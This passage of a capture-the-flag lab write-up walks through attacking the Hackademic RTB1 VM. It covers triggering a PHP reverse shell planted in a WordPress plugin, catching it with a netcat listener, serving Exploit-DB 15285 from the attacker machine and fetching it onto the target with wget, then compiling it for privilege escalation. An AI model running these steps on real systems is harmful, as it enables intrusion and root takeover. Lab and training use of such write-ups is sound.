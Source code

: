 ## Reverse shell connection

I ran (on the Kali terminal) the Netcat listener with the `nc -lvp 1234` command. This command "listen" from an incoming connection on the 1234 port. This port number was written in the `php-reverse-shell.php` file (so, at that point it was written in the `hello.php` file, too).

To start the connection, I browsed http://10.0.2.15/Hackademic_RTB1/wp-content/plugins/hello.php. This means I was accessing the `hello.php` file I have modified in the previously steps, and executing the script (written in the `hello.php` file) to activate a remote shell connection between Kali and the target. After that, I was able to execute command within the target machine from Kali.

## Exploiting the target

The exploit can be downloaded from [here](https://www.exploit-db.com/exploits/15285). However, it's already available in Kali, so I searched for it through the terminal with the command `searchsploit 15285`. This command searches for the specified exploit in some database available in Kali and it output some information such as title and location of the exploit. The title of the exploit was *"RDS protocol" - Local Privilege Escalation*. The RDS (Remote Desktop Service) protocol enables users to remotely control a computer or a virtual machine, allowing them to interact with the desktop environment and applications. So, the exploit (after its execution) increases privilege levels of the user who executed it and it gives (remote) access to files and programs stored in the machine where the exploit has been executed.

In the following steps, I will download the exploit file on the target from remote and after its execution I will be able to access files within the target machine from remote (from Kali).

I copied the exploit file in the current directory of the terminal with the command `cp /usr/share/exploitdb/exploits/linux/local/15285.c .`. Then, I ran the default Python HTTP server on port 80 on Kali with the command: `python2 -m SimpleHTTPServer 80`. I will use this server to download the exploit on the target from Kali.

I have executed the following commands from remote on the target machine through the reverse shell connection established in the previously step.

- `cd /tmp`: command to navigate within the target machine in the `/tmp` directory. This directory is usually used to store and manage configuration files, temporary files and other system files.
- `wget http://10.0.2.4/15285.c`: HTTP request to download the exploit from the HTTP server on Kali (this is possible because I have previosly opened an HTTP server on Kali with the command `python2 -m SimpleHTTPServer 80`). Please note that the IP address in the specified URL in the command is the IP address of Kali (I had to download the exploit on the target and the exploit was stored in Kali, so I had to contact the Kali machine for this).

- `ls`: command to see all the file in the current directory (`/tmp`).
- `gcc 15285.c -o kernel`: command to compile the exploit and save the output of the compilation in a file named `kernel`.

## Getting root access and flag capture

I have executed the following commands from remote on the target machine (again, through the remote shell connection) to get root access and to read the `key.txt` file (get the flag).

- `chmod 777 kernel`: command to change permissions of the `kernel` file. After this command, all users are able to read, write and execute it.
